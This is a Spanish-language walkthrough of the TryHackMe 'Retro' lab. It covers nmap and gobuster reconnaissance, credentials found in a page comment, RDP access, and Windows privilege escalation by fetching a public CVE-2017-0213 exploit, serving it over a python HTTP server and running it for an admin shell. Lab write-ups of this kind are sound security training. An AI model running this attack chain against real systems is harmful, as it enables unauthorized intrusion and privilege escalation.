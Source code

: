 # Guía de Explotación - TryHackMe Retro

## 1. Reconocimiento

Iniciamos el reconocimiento con un escaneo de Nmap utilizando el siguiente comando:

```bash
nmap -sC -sV -Pn IP_MAQUINA_ATACADA
```

![alt text](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **3389/TCP** (RDP - Escritorio Remoto)

Al acceder al puerto **80**, encontramos la página predeterminada de IIS.

![alt text](./assets/image-2.png)

---

### 2.Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir directorios ocultos en el servidor web:

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![alt text](./assets/image-1.png)

El escaneo revela los siguientes directorios:
- /retro

Si entramos vemos que tenemos un nombre de usuario, el cual es el que ha publicado todo.

![alt text](./assets/image-4.png)

```txt
Wade
```

Investigando un poco mas vemos una publicación con información potencialmente útil.

![alt text](./assets/image-5.png)

Ya que al hacer clic en la publicación "Ready Player One", encontramos un comentario en el código fuente con una posible credencial.

![alt text](./assets/image-6.png)

```txt
parzival
```

---

### 3.Acceso mediante RDP

Usamos **Remmina** para conectarnos a la máquina víctima con las credenciales encontradas:

```txt
Usuario: Wade
Contraseña: parzival
```

Una vez dentro, accedemos al archivo `user.txt` y encontramos la primera flag:

![alt text](./assets/image-7.png)

---

## 4. Escalada de Privilegios

Buscando un poco de informacion del sistema, usando el comando `systeminfo`, vemos la version del sistema operativo.

![alt text](./assets/image-11.png)

Si buscamos `10.0.14393 N/A Build 14393` en Google, econtramos que tiene una gran vulneravilidad, la cual se explica en el [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213)

Por lo que buscamos como explotarla y encontramos un repositorio de [Github](https://github.com/Anonymous-Family/CVE-2017-0213), el cual te da un .zip y una explicacion de como explotarlo.

Por lo que lo descargamos con un `git clone`

```bash
git clone https://github.com/Anonymous-Family/CVE-2017-0213.git
```

![alt text](./assets/image-13.png)

Ahora descomprimimos el archivo `CVE-2017-0213_x64.zip`, ya que en el comando anterior de `systeminfo` vimos que era el tipo de sistema que usaba.

```bash
unzip CVE-2017-0213_x64.zip
```
![alt text](./assets/image-14.png)

Esto nos dara un `.exe` que debemos de ejecutar en la maquina windows, por lo que vamos a montar un servidor con python3 en nuestro kali, para luego acceder desde el windows y descargarlo.

```bash
python3 -m http.server 8080
```

![alt text](./assets/image-15.png)

Lo descargamos y lo ejecutamos.

![alt text](./assets/image-16.png)

Cuando lo ejecutamos nos abrira una terminal con permisos de adminsistrador.

![alt text](./assets/image-17.png)

Buscaremos la flag del root, la cual se encuentra en su escritorio, por lo que accedemos y la visualizamos.

```bash
cd C:\Users\Administrator\Desktop
more root.txt.txt
```

![alt text](./assets/image-18.png)

¡Máquina comprometida con éxito!